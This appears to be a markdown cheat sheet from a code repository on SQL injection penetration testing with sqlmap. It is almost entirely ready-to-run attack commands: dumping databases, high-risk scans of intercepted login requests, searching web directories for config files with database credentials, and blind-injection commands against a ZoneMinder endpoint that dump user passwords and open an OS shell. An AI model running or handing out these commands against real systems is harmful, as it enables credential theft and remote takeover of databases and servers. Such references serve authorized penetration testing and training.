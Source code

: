 ## SQL Penetration Testing Techniques

### SQLMAP
```
sqlmap -u "http://domain.com"
```

### Gather password using SQLMap
```
splmap -u "http://domian.com/index.php?something=something" --batch --dump
```

### Identifying vulnerabilities with SQLMap
```
# Intercept a login with burpsuite
# Copy the intercept and save to a file login.req
sqlmap -r login.req --level 5 --risk 3
```

### Locate the localhost file making connection to the SQL
```
# Grep for localhost from within /www/ dir
grep "localhost" ./ -R

# If presented with config.php or similar. Check for login details
cat ./path/to/config.php
```

### Generic SQL commands
```
# Login to mysql on current system
mysql -u root -p

# Login to mysql on external server
mysql -u root -h 10.11.1.208 -p

show databases;
use db_name;
show tables;
select * from table_name;
```

### Example of blind SQL injection with sqlmap
```
sqlmap http://192.168.124.52/zm/index.php --data="view=request&request=log&task=query&limit=100&minTime=5" -D zm --tables --threads 5
sqlmap http://192.168.124.52/zm/index.php --data="view=request&request=log&task=query&limit=100&minTime=5" -D zm -T Users -C Username,Password --dump --threads 5
sqlmap http://192.168.124.52/zm/index.php --data="view=request&request=log&task=query&limit=100&minTime=5" --os-shell
```
